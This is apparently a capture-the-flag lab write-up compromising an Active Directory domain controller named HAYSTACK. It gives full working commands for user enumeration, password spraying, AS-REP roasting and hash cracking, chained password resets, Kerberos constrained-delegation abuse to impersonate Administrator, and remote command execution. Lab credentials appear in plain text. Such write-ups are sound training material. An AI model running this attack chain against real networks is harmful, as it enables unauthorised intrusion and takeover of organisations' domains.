Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 10.81.134.202
Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-31 16:21 IST
Nmap scan report for 10.81.134.202
Host is up (0.14s latency).
Not shown: 65520 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3389/tcp  open  ms-wbt-server
7680/tcp  open  pando-pub
9389/tcp  open  adws
49669/tcp open  unknown
49671/tcp open  unknown
49673/tcp open  unknown
49704/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 39.96 seconds
```


```sh
nmap -sC -sV -T4 -Pn -p 53,88,135,139,389,445,636,3268,3389,7680,9389,49669,49671,49673,49704 10.81.134.202
Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-31 16:25 IST
Stats: 0:01:10 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.85% done; ETC: 16:26 (0:00:00 remaining)
Nmap scan report for 10.81.134.202
Host is up (0.19s latency).

PORT      STATE    SERVICE       VERSION
53/tcp    open     domain        Simple DNS Plus
88/tcp    open     kerberos-sec  Microsoft Windows Kerberos (server time: 2026-01-31 10:55:36Z)
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open     ldap          Microsoft Windows Active Directory LDAP (Domain: thm.corp0., Site: Default-First-Site-Name)
445/tcp   open     microsoft-ds?
636/tcp   open     tcpwrapped
3268/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: thm.corp0., Site: Default-First-Site-Name)
3389/tcp  open     ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM
|   NetBIOS_Domain_Name: THM
|   NetBIOS_Computer_Name: HAYSTACK
|   DNS_Domain_Name: thm.corp
|   DNS_Computer_Name: HayStack.thm.corp
|   DNS_Tree_Name: thm.corp
|   Product_Version: 10.0.17763
|_  System_Time: 2026-01-31T10:56:28+00:00
|_ssl-date: 2026-01-31T10:57:07+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=HayStack.thm.corp
| Not valid before: 2026-01-30T10:39:09
|_Not valid after:  2026-08-01T10:39:09
7680/tcp  filtered pando-pub
9389/tcp  open     mc-nmf        .NET Message Framing
49669/tcp open     msrpc         Microsoft Windows RPC
49671/tcp open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
49673/tcp open     msrpc         Microsoft Windows RPC
49704/tcp open     msrpc         Microsoft Windows RPC
Service Info: Host: HAYSTACK; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-01-31T10:56:28
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.11 seconds
```

From the open ports we can deduce that the target is a domain controller. Enumerating smb;
```sh
smbclient -L \\\\10.81.134.202\\ -N
```
```sh
smbclient \\\\10.81.134.202\Data
```


Check the text file in Mousepad and we find a password that might be useful for password spraying.


We just need a list of usernames to spray. Let’s abuse guest access to enumerate usernames.
```sh
/usr/share/doc/python3-impacket/examples/lookupsid.py thm.corp/guest@10.81.134.202 | grep "SidTypeUser" | awk -F '\\' '{print $2}' | awk '{print $1}' > valid-users.txt
```


Now we have a nice list of usernames saved as valid-users.txt to try using that password.
```sh
crackmapexec smb 10.81.134.202 -u valid-users.txt -p ResetMe123! --continue-on-success
```



Before trying to log in, tried kerberoasting, asreproasting and bloodhound enumeration.
```sh
/usr/share/doc/python3-impacket/examples/GetNPUsers.py thm.corp/ -dc-ip 10.81.134.202 -no-pass -usersfile valid-users.txt -outputfile asrep.hashes
```



We got 3 hashes.

Running hashcat on that file.

```sh
hashcat -m 18200 asrep.hashes /usr/share/wordlists/rockyou.txt
```



Started bloodhound (admin:Bloodhound@123)


```sh
bloodhound-python -d thm.corp -u TABATHA_BRITT -p marlboro\(1985\) -ns 10.81.134.202 -c all --zip
```
As it showing error we added backward slash before brackets in passwords.

Clear the Bloodhound database if you already had a domain in there and then upload the zip file generated by the command above.

Load data into the BloodHound GUI to find attack paths. Our attack path  from bloodhound.
We find a path to move laterally. Tabatha can move through the following accounts by resetting their passwords.

- Shawna_Bray
- Cruz_Hall
- Darla_Winters

BloodHound shows that`darla_winters` has **delegation rights (AllowedToDelegate)**

We **chain reset**:

- From `tabatha_britt` → `shawna_bray` → `cruz_hall` → `darla_winters` :




```sh
bloodyAD --dc-ip 10.81.134.202 -d thm.corp -u 'TABATHA_BRITT' -p 'marlboro(1985)' set password SHAWNA_BRAY 'Password@123'
```



Using `getST.py`, we exploit **S4U2Self + S4U2Proxy** to impersonate the `Administrator` user.

Since `darla_winters` is trusted to delegate to `cifs/HAYSTACK`, we:

1. Request a ticket for `Administrator`
2. Save it to `.ccache`
3. Use it to impersonate `Administrator` via SMB (CIFS)

Put the DC’s IP in the /etc/hosts file for both the computer name “haystack” and the domain name “thm.corp”. This makes the below commands work seamlessly.
```sh
/usr/share/doc/python3-impacket/examples/getST.py -k -impersonate Administrator -spn cifs/HAYSTACK.THM.CORP THM.CORP/DARLA_WINTERS:Password@123
```



This command is used for a **Kerberos delegation abuse attack**  
(specifically **S4U – Service for User**).
## What this command does (one-line)

👉 It **asks the Domain Controller** for a Kerberos ticket that lets the attacker **act as Administrator** when accessing the **CIFS service on HAYSTACK**, using the privileges of the user `DARLA_WINTERS`.

## Argument-by-argument explanation

### 1. `getST.py`

**ST = Service Ticket**

This Impacket script requests a **Kerberos Service Ticket** from the DC.

2. `-k`
Means:

> **Use Kerberos authentication from an existing ticket**

So:
- You already have a valid TGT (from `kinit`, `getTGT.py`, AS-REP, etc.)
- No password needed here
3. `-impersonate Administrator`
This is the **core of the attack**.

It means:

> “Give me a ticket that lets me act **as Administrator**”

This only works if:

- `DARLA_WINTERS` has **delegation rights**  
    (Constrained Delegation or RBCD)

4. `-spn cifs/HAYSTACK.THM.CORP`
SPN = **Service Principal Name**

This says:

> “I want to access the **file service (SMB/CIFS)** on the machine **HAYSTACK**”

So the ticket you get will be valid for:

5. `THM.CORP/DARLA_WINTERS`
This is the **account you control**.

Meaning:

- You compromised `DARLA_WINTERS`
    
- That account is trusted for delegation
    
- Kerberos will allow it to impersonate others

```sh
export KRB5CCNAME=Administrator@cifs_HAYSTACK.THM.CORP@THM.CORP.ccache
```
### 1️⃣ `export`

`export`

Makes an **environment variable** available to the current shell and all commands you run after it.

### 2️⃣ `KRB5CCNAME`

`KRB5CCNAME`

This is a **Kerberos environment variable**.

It tells Kerberos tools:

> “Which ticket cache (ccache file) should I use?”

Normally it points to:

`/tmp/krb5cc_<uid>`

Here, you are **overriding it**.

### 3️⃣ `Administrator@cifs_HAYSTACK.THM.CORP@THM.CORP.ccache`

This is the **Kerberos ticket cache file** created by `getST.py`.

What it contains:

- A **service ticket**
    
- For user: `Administrator`
    
- For service: `cifs/HAYSTACK.THM.CORP`
    
- In realm: `THM.CORP`
    

So effectively:

> “I possess a valid Kerberos ticket that lets me access SMB on HAYSTACK **as Administrator**.”

## Why this is needed (important)

After `getST.py`, the ticket is saved in a file.  
Linux **does NOT automatically use it**.

This command tells:
smbclient
psexec.py
wmiexec.py
evil-winrm

👉 “Use THIS ticket, not my normal user”.

### Step 8: Capture the Flags

From the admin shell, we access user directories
```sh
/usr/share/doc/python3-impacket/examples/wmiexec.py THM.CORP/Administrator@HAYSTACK.THM.CORP -k -no-pass
```

This command uses **Kerberos authentication** to execute commands on the remote machine **HAYSTACK** as **Administrator**, **without knowing the password**, by abusing a Kerberos ticket.





